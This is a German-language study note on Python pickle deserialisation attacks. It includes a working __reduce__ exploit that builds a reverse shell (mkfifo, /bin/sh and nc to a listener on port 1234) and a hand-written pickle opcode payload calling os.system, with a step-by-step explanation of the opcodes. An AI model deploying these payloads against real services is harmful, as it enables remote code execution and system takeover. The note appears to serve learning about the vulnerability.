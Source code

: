 # pickle (python)
Angelegt Montag 31 Oktober 2022


* s. auch [:Python:Diverses#objekte-speichern]()
* Mit [pickle − python-Doku](https://docs.python.org/3/library/pickle.html) kann man Objekte serialisieren und deserialisieren, um sie bspw. als Binärdatei zu speichern. Diese Methode ist **nicht** sicher und kann ausgenutzt werden
* [pickle.dumps(…) − python-Doku](https://docs.python.org/3/library/pickle.html#pickle.dumps) liefert Binärdaten, bspw. ``b-String``. [pickle.loads(…) − python-Doku](https://docs.python.org/3/library/pickle.html#pickle.loads) erwartet Binärdaten, bspw. ``b-String``
	* Die Binärdaten enthalten ``op-Codes``, die von ``pickle.loads(…)`` 1:1 ausgeführt werden. Können mit ``pickletools.dis(<pickle-BINÄRDATEN>)`` augeschlüsselt werden
	* [pickle.dump(…) − python-Doku](https://docs.python.org/3/library/pickle.html#pickle.dump) und [pickle.load(…) − python-Doku](https://docs.python.org/3/library/pickle.html#pickle.load) (beides ohne „s“) machen dasselbe nur mit Dateien


Exploit via ``__reduce__()``
----------------------------

* Exploit wird demonstriert auf: <https://checkoway.net/musings/pickle/>
* Implementiert man [``object.__reduce__()`` − python-Doku](https://docs.python.org/3/library/pickle.html#object.__reduce__) in einer Klasse, kann man beeinflussen, wie Instanzen dieser serialisert (und damit von [pickle − python-Doku](https://docs.python.org/3/library/pickle.html) verarbeitet werden) 
* Soll ``Tupel`` oder ``String`` zurückgeben
	* Wenn ``Tupel``: An erster Stelle ein *callable*-Objekt, an zweiter ein ``Tupel`` mit den Argumenten (wenn *Callable*) keine Argumente nimmt, ein Leeres
		* Es gibt weitere Möglichkeiten und Bedinugungen aber diese reichen für's Erste
	* Wenn ``String``: s. [``object.__reduce__()`` − python-Doku](https://docs.python.org/3/library/pickle.html#object.__reduce__)

❗️Hier kommt auch eine Schwachstelle ins Spiel: Man kann die ``__reduce__``-Funktion auch völlig anders gestalten. Das *Callable* muss Nichts mit der Klasse zu tun haben und kann bspw. ``os.system`` sein.

### Der Exploit

* Um den Exploit wirklich nutzen zu können, muss man zuvorderst einen [:Linux:**netcat & socat**](../netcat_&_socat.md)-Listener starten:

	nc -nvl 1234


* Unten stehender Beispielcode ignoriert die Zielseite. Dort findet sich lediglich eine [:Python:Module:**Flask**]()-Anwendung, die die Daten ``base64``-dekodiert und ``pickle.loads(…)`` aufruft.

	import pickle
	import base64 # Wird für das Versenden von (Binär-)Daten über ein Netzwerk verwendet
	import os
	
	
	class RCE:
	    def __reduce__(self):
	        cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 127.0.0.1 1234 > /tmp/f') # Standardcode für eine Reverse-Shell
	        return os.system, (cmd,) # Callable und dessen Argumente als Tupel
	
	
	if __name__ == '__main__':
	    pickled = pickle.dumps(RCE()) # Umwandlung in Binärdaten
	    print(base64.urlsafe_b64encode(pickled))

Exploit via pickle selbst
-------------------------

* Exploit wird demonstriert auf: <https://www.bengrewell.com/2018/05/19/rotten-pickles-part-1/>
	* Eine ausführlichere Variante mit anderen Modulen: <https://checkoway.net/musings/pickle/>
* Weitere Befehle (S. 14) und ausführliche Beschreibung: [./Sour Pickles − Marco Slaviero.pdf](./pickle_(python)/Sour Pickles − Marco Slaviero.pdf)
* ``pickle`` kann als *Stack Language* interpretiert werden (leider habe ich hierzu noch keine offizielle Dokumentation gefunden)
* **Angriffsvektor**: ``b'cos\nsystem\n(S'/bin/echo blah'\ntR.``' bzw.
	1. ``cos``
	2. ``system``
	3. ``(S'/bin/echo Hello``'
	4. ``tR.``
	* Der ``b-String`` beschreibt das Auf- und Abbauen eines Stacks.


### Erklärung

1. ``cos``: Kann auf ``c`` und ``os`` aufgeteilt werden

``c`` Lies alles bis zum nächsten ``newline`` (``\n``) und interpretiere es als Modulname (uns lege es als erstes Element auf Stack)
``os`` Modulname
``import os``

2. ``system``: Funktion des Moduls, die aufgerufen werden soll (Argumente nicht spezifiziert

``os.system(…)``
``import os``

3. ``(S'/bin/echo Hello``': Beinhaltet mehrere Teile

``(`` Markierung, die in der nächsten Zeile für das ``t`` wichtig wird und dafür auch auf den Stack gelegt wird
``S`` Lies String innerhalb der '``…``' bis zum nächsten ``newline`` (``\n``)  und lege ihn wieder auf den 
'``/bin/echo Hello``'
``(``
``os.system(…)``
``import os``

4. ``tR.``

``t`` Entferne alles vom Stack bis Markierung, dh. ``(``, erreicht wurde, setzte alles zu einem Tupel zusammen und lege es wieder auf den Stack
``('/bin/echo Hello',)``
``os.system(…)``
``import os``
``R`` Entferne die oberseten zwei Stack-Elemente, führe den entsprechenden Aufruf aus und lege das Resultat wieder auf den Stack

* Unteres muss *Callable* sein
* Oberes muss *Tupel* sein

``os.system('/bin/echo Hello',)``
``import os``
``.`` Beendet die Stack-Bearbeitung und gibt das (hoffentlich) einzige Elemente auf dem Stack als Resultat des ``pickle``-Prozesses zurück.


